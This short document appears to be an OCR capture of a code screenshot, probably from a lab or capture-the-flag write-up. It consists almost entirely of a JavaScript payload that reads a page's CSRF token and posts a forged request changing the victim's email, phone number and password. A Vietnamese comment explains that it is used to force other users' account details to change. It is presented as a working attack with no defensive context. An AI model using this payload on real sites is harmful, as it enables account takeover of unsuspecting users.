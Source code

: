   ```html
  <script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open("get","/st_update.php",true);
  req.send();
  function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open("post", "/st_update_a.php", true);
      changeReq.send("csrf="+token+"&email=leo@barca.com&phonenum=0318370123&pass=1234567&cpass=1234567&submit=") // dùng user này để khiến user khác phải thay đổi thông tin thông qua CSRF
  };
  </script>
  ```

  

  
